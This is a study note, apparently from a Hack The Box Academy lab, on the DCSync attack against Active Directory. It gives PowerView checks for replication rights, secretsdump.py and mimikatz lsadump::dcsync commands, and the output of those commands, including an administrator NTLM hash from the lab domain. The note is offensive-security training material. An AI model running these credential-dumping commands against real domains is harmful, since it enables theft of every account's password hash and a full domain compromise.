 DCSync Attack
###############

Date: 2025-01-04 10:18:32

Tags: :ref:`active directory enumeration attacks`

Status: #new

----


Description 
**************
DCSync is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

The user account we are attacking with requires the `DS-Replication-Get-Changes-All extended right` permission.  You can verify that asssociation with this command:

.. code-block:: powershell

    PS C:\htb> Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl

    samaccountname     : adunn
    objectsid          : S-1-5-21-3842939050-3880317879-2865463114-1164
    memberof           : {CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Shared Calendar
                        Read,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Printer Access,OU=Security
                        Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=File Share H Drive,OU=Security
                        Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL...}
    useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD

And then by using the SID value look for the access rights:

.. code-block:: powershell

    PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
    PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | flAceQualifier          : AccessAllowed
    
    ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
    ActiveDirectoryRights : ExtendedRight
    SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-498
    ObjectAceType         : DS-Replication-Get-Changes

    AceQualifier          : AccessAllowed
    ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
    ActiveDirectoryRights : ExtendedRight
    SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-516
    ObjectAceType         : DS-Replication-Get-Changes-All

    AceQualifier          : AccessAllowed
    ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
    ActiveDirectoryRights : ExtendedRight
    SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
    ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

    AceQualifier          : AccessAllowed
    ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
    ActiveDirectoryRights : ExtendedRight
    SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
    ObjectAceType         : DS-Replication-Get-Changes

    AceQualifier          : AccessAllowed
    ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
    ActiveDirectoryRights : ExtendedRight
    SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
    ObjectAceType         : DS-Replication-Get-Changes-All


Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py
****************************************************************

.. code-block:: bash

    Temen@htb[/htb]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 


.. note:: We can use the -just-dc-ntlm flag if we only want NTLM hashes or specify -just-dc-user <USERNAME> to only extract data for a specific user. 

Other useful options:
=======================

**-pwd-last-set** to see when each account's password was last changed

**-history** to dump password history

**user-status** to check to see if users are disabled.

The above command will dump hashes of types into individual files. 


Finding users that have reversible encrypted passwords set. 
==============================================================

Using the following command you can find these users and decrypt their passwords with the key found in (https://docs.microsoft.com/en-us/windows-server/security/kerberos/system-key-utility-technical-overview) 

.. code-block:: powershell

    PS C:\htb> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

or with this command:

.. code-block:: powershell

    PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol


Running powershell as a different user:
==========================================

.. code-block:: console

    C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell


Performing the DCSync attack with :ref:`mimikatz`
***************************************************

.. code-block:: powershell

    PS C:\htb> .\mimikatz.exe

    .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
    .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
    ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
    ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
    '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
    '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

    mimikatz # privilege::debug
    Privilege '20' OK

    mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
    [DC] 'INLANEFREIGHT.LOCAL' will be the domain
    [DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
    [DC] 'INLANEFREIGHT\administrator' will be the user account
    [rpc] Service  : ldap
    [rpc] AuthnSvc : GSS_NEGOTIATE (9)

    Object RDN           : Administrator

    ** SAM ACCOUNT **

    SAM Username         : administrator
    User Principal Name  : administrator@inlanefreight.local
    Account Type         : 30000000 ( USER_OBJECT )
    User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
    Account expiration   :
    Password last change : 10/27/2021 6:49:32 AM
    Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
    Object Relative ID   : 500

    Credentials:
    Hash NTLM: 88ad09182de639ccc6579eb0849751cf

    Supplemental Credentials:
    * Primary:NTLM-Strong-NTOWF *
        Random Value : 4625fd0c31368ff4c255a3b876eaac3d

    <SNIP>

